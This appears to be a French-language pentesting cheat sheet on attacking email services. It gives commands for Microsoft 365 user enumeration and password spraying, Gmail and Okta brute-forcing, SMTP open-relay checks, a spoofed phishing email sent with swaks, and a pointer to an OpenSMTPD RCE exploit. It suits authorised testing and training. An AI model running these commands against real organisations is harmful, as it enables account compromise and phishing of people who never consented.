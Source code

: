 
- [ ] [[#EVOLUTION]]
- [ ] [[#1. BRUTEFORCE USERS]]
- [ ] [[#2. CLOUD ENUMERATION]]
- [ ] [[#3. SMTP OPEN RELAY]]
- [ ] [[#4. CVEs]]



---

# EVOLUTION

Permet d'interagir avec IMAP et SMTP

```shell
sudo apt-get install evolution
```

si erreur "bwrap: Can't create file at ...", lancer avec cette commande
```
export WEBKIT_FORCE_SANDBOX=0 && evolution
```



---

# 1. BRUTEFORCE USERS

[[Bruteforce en ligne#POP3]]



---

# 2. CLOUD ENUMERATION

## M365

#### O365Spray

https://github.com/0xZDH/o365spray

```bash
git clone https://github.com/0xZDH/o365spray.git
```

Vérification que le domaine utilise M365

```shell
python3 o365spray.py --validate --domain msplaintext.xyz
```

Bruteforce de users

```sh
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

Password spraying

```sh
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```


## GMAIL / OKTA

https://github.com/ustayready/CredKing

```bash
git clone https://github.com/ustayready/CredKing
```

Bruteforce GMAIL

```
credking.py --plugin gmail --threads 64 --userfile USERFILE --passwordfile PASSWORDFILE
```

Bruteforce OKTA

```
credking.py --plugin okta --threads 64 --userfile USERFILE --passwordfile PASSWORDFILE --oktadomain org.okta.com
```


---

# 3. SMTP OPEN RELAY


Vérifier si possible d'envoyer des mails avec des adresses qui n'existent pas ou usurper @ existante
```bash
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```

Envoi de mail en usurpant une adresse
```shell
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```


---

# 4. CVEs


## [CVE-2020-7247](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247)

OpenSMTPD < 6.6.2

RCE https://www.exploit-db.com/exploits/47984
